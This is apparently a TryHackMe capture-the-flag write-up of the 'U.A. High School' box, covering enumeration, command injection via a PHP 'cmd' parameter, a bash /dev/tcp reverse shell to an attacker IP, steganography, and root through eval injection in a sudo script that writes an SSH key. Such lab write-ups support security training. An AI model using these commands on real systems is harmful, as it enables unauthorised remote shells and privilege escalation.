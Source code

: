 # TryHackMe - U.A. High School

## Enumeration

We start with our nmap scan which just reveals an SSH and HTTP server running.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 07:00 EDT
Nmap scan report for 10.10.42.185
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```

We begin to enumerate the HTTP server by running feroxbuster which reveals the assets subdirectory.&#x20;

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Feroxbuster doesn't reveal any further details which is where we'll bring GoBuster in for the fine tuning, we'll configure our scan to search for specific file types which gives us a hit for "index.php"

```
gobuster dir -u 10.10.42.185/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,css,zip
```

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

This just appears to be an empty PHP file to the client, but since PHP code is executed server side there may be something that is happening behind the scenes that we can't see. Curious to see if there is anything we can pass to this, we utilise wfuzz which should find any endpoints of usage, and we'll also specify the wordlist to be the "common.txt" wordlist which is stored in the following location, on a default Kali install.

```
/usr/share/seclists/Discovery/Web-Content/common.txt
```

We're going out on a limb and try to read the `/etc/passwd` file on the machine and we get a hit with the "cmd" parameter.

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Foothold

So we have code execution! Amazing, let's get a shell. We try a Netcat shell but don't appear to have a binary on the box, so decide to craft our own shell. We make a simple Bash reverse shell:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.61.246/9999 0>&1'
```

Run our first command to download the binary onto the box and store it in the tmp directory, which we can assume we have write access in.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We double check to ensure it's saved, which we can confirm through the output from the website, which is Base64 encoded.

<figure><img src=".gitbook/assets/0kDwX7EBOB.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/bl1M1Cq18Q.png" alt=""><figcaption></figcaption></figure>

We make our binary executable iwth `chmod +x /tmp/shell.sh` and then run it with `bash /tmp/shell.sh` which gets us a reverse shell as www-data.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

When on the box we find two images in the images folder that we'd found through our enumeration then begin working backwards, eventually finding another folder, "Hidden\_Content" in `/var/www` which we find another Base64 encoded flag in. Decoding it gives us some kind of password..

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## User

We remain curious about the images we found earlier so downlaod them onto the system and see whether there's some kind of Steganography in them. We find nothing of interest in "yuei.jpg" and find that "oneforall.jpg" isn't supported, which seems to imply there's something corrupt with the file. We inspect the structure of the file and see it's configured to be a PNG file, so correct with this with the appropriate file signature.

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

<figure><img src=".gitbook/assets/jttPqhkBeb.png" alt=""><figcaption></figcaption></figure>

We can see that our file changes from a "data" file to a complete JPEG file, indicating it is back to its restored state.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We run steghide extract with our credentials and get "creds.txt"

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We take these creds and SSH into the box which gives us user!

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Root

We run `sudo -l` and find a script that allows the user to input something to save to a file, but it's not sanitised properly so we can make this write to whatever file we want!

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We run a POC by saving some random contents to a file then checking the permissions, and we see it's owned by root. Since we only have writing permissions our route for root here is to simply upload our own public SSH key and then SSH into the box.

We grab our public key and then run the script again, saving it into the default location where authorised keys should be stored...

<figure><img src=".gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

We attempt to SSH into the box which is successful and as such, gives us the box!

<figure><img src=".gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>
